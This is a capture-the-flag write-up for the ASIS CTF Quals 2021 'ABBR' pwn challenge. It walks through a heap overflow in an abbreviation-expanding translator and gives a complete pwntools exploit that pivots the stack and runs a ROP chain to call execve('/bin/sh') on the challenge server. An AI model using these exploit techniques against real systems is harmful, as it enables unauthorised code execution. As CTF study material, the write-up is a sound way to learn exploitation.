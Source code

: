```yaml
---
author: ikerl
categories: ctf
date: 2021-10-24 18:00:00 +0200
layout: post
tags: [ikerl]
title: ASIS CTF Quals 2021 - ABBR [Pwn]
---
```


*NOTE: In this CTF we participated with [ripp3rs](https://ctftime.org/team/50984).*

## Introduction

```
Abbreviations in English are complicated... Why?
```

In this challenge we are given a 64-bit statically linked executable, compiled with all the usual memory protections except PIE. The program is a translator that replaces abbreviations with the full text following the established rules.

For example, these are some of the rules:

```
rop -> return oriented programming
jop -> jump oriented programming
cop -> call oriented programming
aar -> arbitrary address read
aaw -> arbitrary address write
www -> write what where
oob -> out of bounds
ret2 -> return to 
```

Therefore, the string `rop is god` would become `return oriented programming is god`.

## Source code analysis

In addition to the executable, the source code of the program is provided, therefore, its analysis is easier. The vulnerable function is `english_expand` because it allows the string to be expanded out of bounds.

```c
void english_expand(char *text) {
  int i, alen, blen;
  Rule *r;
  char *p, *q;
  char *end = &text[strlen(text)-1]; // pointer to the last character

  /* Replace all abbreviations */
  for (p = text; *p; ++p) {
    for (i = 0; i < sizeof(rules) / sizeof(Rule); i++) {
      r = &rules[i];
      alen = strlen(r->a);
      blen = strlen(r->b);
      if (strncasecmp(p, r->a, alen) == 0) {
        // i.e "i'm pwn noob." --> "i'm pwn XXnoob."
        for (q = end; q > p; --q)
          /* OVERFLOW! */
          *(q+blen-alen) = *q;
        // Update end
        end += blen-alen;
        *(end+1) = '\0';
        // i.e "i'm pwn XXnoob." --> "i'm pwn newbie."
        memcpy(p, r->b, blen);
      }
    }
  }
}
```

Using the abbreviations we can exploit the above function, get the text to overflow the limits of the text chunk and then start overwriting heap memory. The text chunk and the translator's chunk are allocated during the creation of the translator. The following function is the one that performs the memory allocation in the heap:

```c
Translator *translator_new(int size) {
  Translator *t;

  /* Allocate region for text */
  char *text = (char*)calloc(sizeof(char), size);
  if (text == NULL)
    return NULL;

  /* Initialize translator */
  t = (Translator*)malloc(sizeof(Translator));
  t->text = text;
  t->size = size;
  t->translate = english_expand;

  return t;
}
```

First the memory chunk of the text is allocated and then the memory used by the translator structure. The `translate` field points to the `english_expand` function, so we can exploit the overflow of `text` to overwrite this function with an arbitrary address. When the `translate` function is called, the function we have just modified will be executed.

We can use the following exploit to change the original execution flow to `0x42424242424242` and obtain a segfault:

```python
from pwn import *

io = gdb.debug("./abbr")

io.recvuntil("text: ")

text = b"rop "
io.sendline( text + (0x1000-len(text)-8)*b"A" + b"\x42\x42\x42\x42\x42\x42\x42"
            
io.interactive()
```

When the `rop` abbreviation is replaced by the full text, the text will overflow the assigned chunk and will overwrite the translator's `translate` function.

## Exploitation

Now we have control of the execution flow but we can only use one gadget, since we can only overflow one function pointer. With a single gadget it is not possible to get code execution in this program. Therefore, we have to find a gadget that allows us to perform a stack pivot and, in this way, point `rsp` to our buffer and be able to ROP with the data we control.

Ideally, we would be able to use a gadget of the type:

```
mov rsp, rax
ret
```

However, the best we could find was the following (address `0x403446`):

```
mov esp, eax
jmp 0x40333a
```

`rax` points to our input, and it is moved to `rsp`. Fortunately, the `jmp 0x40333a` instruction returns without generating any segfault. However, jumping to that address has some side-effects, as it `pop`s from the stack three times; this will prove useful later.

Now, the problem is simplified to the usual rop challenge. We prepare the `execve` syscall with the necessary registers and we gain command execution when the syscall is called.

In order to jump to the `syscall` instruction, we use a gadget that has the instruction `call r12`. Fortunately, when we jumped to `0x40333a`, a user-controlled value was popped from the stack into `r12`.

This is the complete exploit code:

```python
from pwn import *

io = remote("168.119.108.148",10010)

io.recvuntil("text: ")

text = b"rop "

"""
# stack pivoting
0x0000000000403446 : mov esp, eax ; jmp 0x40333a   

# prepare execve syscall
0x000000000045a8f7 : pop rax ; ret    # rax -> execve
0x0000000000404cfe : pop rsi ; ret    # rsi -> 0x0
0x00000000004017df : pop rdx ; ret    # rdx -> 0x0
0x00000000004012e3 : syscall          # r12 -> syscall

# rdi -> /bin/sh
0x0000000000401d61 : pop rbp ; ret
0x000000000049b96f : add rdi, rbp ; call r12  # call syscall
"""

stack_pivoting = p64(0x403446)
syscall = p64(0x4012e3)
pop_rax = p64(0x45a8f7)
pop_rsi = p64(0x404cfe)
pop_rbp = p64(0x401d61)
pop_rdx = p64(0x4017df)
call_syscall = p64(0x49b96f)

io.sendline( text + (0x1000-len(text)-8)*b"A" + stack_pivoting + b"/bin/sh\x00" + b"C"*7 + syscall + pop_rax + p64(59) + pop_rsi + p64(0) + pop_rbp + p64(1) + pop_rdx + p64(0) + call_syscall )

io.interactive()

# ASIS{d1d_u_kn0w_ASIS_1s_n0t_4n_4bbr3v14t10n}
```
